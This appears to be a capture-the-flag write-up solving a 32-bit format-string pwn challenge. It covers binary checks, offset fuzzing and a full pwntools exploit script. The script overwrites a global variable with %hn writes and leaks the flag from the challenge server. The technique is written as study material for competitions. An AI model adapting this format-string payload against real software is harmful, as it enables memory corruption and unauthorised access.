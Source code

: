 ## Security Code [445 pts]

**Category:** Pwn
**Solves:** 36

### Description
>Can you print the flag?

## Solution

In this challenge we are provided an 32bit ELF binary which is vulnerable to format string.
First I checked `checksec` command on this file:

```bash
$ checksec --file=securitycode 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   83) Symbols	  No	0
```

As we can se PIE is not enabled and checking these details we can use typical format string techniques to exploit this bug.
Decompiling this binary with IDA results us with following images:


![main](images/1.jpg)
![hello_admin](images/1.jpg)
![auth_admin](images/1.jpg)

As we can see in the images we should change value in `security_code` using format strings to pass the condition,
And get to the `auth_admin` which will lead us to flag.

Our next step is to find reference location of `security_code`. using `readelf`:

```bash
$ readelf -a securitycode | grep security_code
    66: 0804c03c     4 OBJECT  GLOBAL DEFAULT   26 security_code
```

The procedure to exploit is as follow:

- First send A value to program, so it will redirect us into `hello_admin`

- Next We should write value in location of `security_code` to make condition pass. 
New value should be `0xABADCAFE`

- After that we will be leaded to `auth_admin`, But by default it will not show us flag.
Again we should do another `format string` exploit and try to read of memory value of flag.

- There is a limitation on reading value in this step, so we should read 6 string of flag at a time, 
and provide an offset on location we are reading in next hit.

To find offset of where is the `security_code` location from stack, I just fuzzed with giving below input format 
and findout that it is location at position 15. So we should point to location of it using format string
`%15$n`

```bash
AAAA%15$p
Hello our dear admin, AAAA0x41414141
```
As u can see the value `AAAA` that we provided, is overwriten in location offset `%15$n`.
This is our start point.

### I tried to put more comments on exploit code below, But will try to make this writeup with more details later.

The final exploit code to receive the flag:

```python
from pwn import *

flag = ''

# We will hit program for 30 iterations (just a number to get all available characters in flag)
# And in each try will change offset of getting flag value.
for i in range(30):

	# First we will connect to program using pwntools methods.
    # r = process("./securitycode")
    r = remote('185.97.118.167', 7040)

    # First Send A to be forwarded to hello_admin
    r.recvuntil("Enter 'A' for admin and 'U' for user.")
    r.sendline('A')

    # Value to overwrite is: xABADCAFE
    # ABAD: 43949
    # CAFE: 51966
    # So we need to first write this value in location of security_code address,
    # But cause it's more than two bytes, we will try to write two times in our format string payload.
    # cause CAFE is of a higher value we should first write it in location 15 from stack
    r.recvuntil('Enter you name:')
    payload = '\x3e\xc0\x04\x08\x3c\xc0\x04\x08%43941x%15$hn%8017x%16$hn'
    r.sendline(payload)

    # Now try to read of the flag step by step
    r.recvuntil('Enter your password:')
    payload = '%{}$x'.format(i)
    r.sendline(payload)

    x = r.recvline()
    x += r.recvline()
    x += r.recvline()
    x = x.replace('The password is ', '').strip()
    # it's just a method i used, it's not very clean, but got me the flag :)!
    try:
        flag += bytearray.fromhex(x).decode()[::-1]
    except:
        pass

print(flag)
```
